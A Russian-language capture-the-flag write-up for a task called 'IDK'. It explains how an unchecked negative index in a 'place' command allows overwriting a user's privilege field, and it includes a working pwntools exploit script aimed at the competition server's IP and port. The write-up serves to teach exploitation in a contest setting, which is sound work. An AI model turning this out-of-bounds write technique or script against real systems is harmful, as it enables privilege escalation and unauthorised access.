 ### CTB 200 — IDK
Открываем файл в дизассемблере и анализируем. Получаем следующее - при вводе любой несуществующей команды проверяется соответствие имени пользователя с названием компилятора.  
![IMG]()  
Это `clang_v1.4.5`. Далее, если эти строки совпадают, проверяются права пользователя и, если они не нулевые, выдается текст флага из файла. Подумаем, можем ли мы как-то повлиять на права пользователя? Да. Для этого нужно обратить внимание на то, как хранится информация в приложении. При вводе пользователем команды `place` программа запрашивает адрес ячейки для сохранения данных пользователя, умножает этот адрес на 8 и прибавляет к адресу массива ячеек (который программа нам любезно предоставляет сама в виде адреса хранилища). Далее проверяется, что значение полученной ячейке равно 0 и после этого выделяется массив из 256 байт и его адрес заносится в ячейку.  
![IMG]()  
Однако нет никакой проверки введеного адреса ячейки и ничто не мешает нам указать отрицательный адрес, чтобы попасть на блок памяти со структурой текущего пользователя, адрес которого мы можем узнать по команде debug. А в этой структуре первое значение и есть права пользователя. Таким образом, алгоритм решения следующий: 
- получаем адрес структуры пользователя;
- высчитываем значение нужно ячейки;
- используем команду `place` пробы разместить в этой ячейке наши данные;
- с помощью любой несуществующей команды получаем флаг.  

Эти действия и выполняет следующий скрипт (а для верности еще и получает нужное имя пользователя с сервера):
```python
#!/usr/bin/env python2

from pwn import *

#context.log_level = 'debug'

def main():
    r = remote('109.233.56.90', 11055)
    r.recvuntil(':')
    r.sendline('asdasd')
    r.recvuntil('>')
    r.sendline('debug')
    data = r.recvuntil('>').split('\r\n')
    storageaddr = int(data[0].split(' ')[1], 16)
    useraddr = int(data[1].split(' ')[2], 16)
    r.sendline('get')
    r.recvuntil(':')
    r.sendline('-%d' % ((storageaddr - 0x6020a0) / 8))
    validname = r.recvuntil('>').split('\r\n')[0].strip()
    r.close()

    r = remote('109.233.56.90', 11055)
    r.recvuntil(':')
    r.sendline(validname)
    r.recvuntil('>')
    r.sendline('debug')
    data = r.recvuntil('>').split('\r\n')
    storageaddr = int(data[0].split(' ')[1], 16)
    useraddr = int(data[1].split(' ')[2], 16)
    r.sendline('place')
    r.recvuntil(':')
    r.sendline('-%d' % ((storageaddr - useraddr) / 8))
    r.recvuntil(':')
    r.sendline('1')
    r.recvuntil('>')
    r.sendline('debug')
    r.recvuntil('>')    
    r.sendline('flag')
```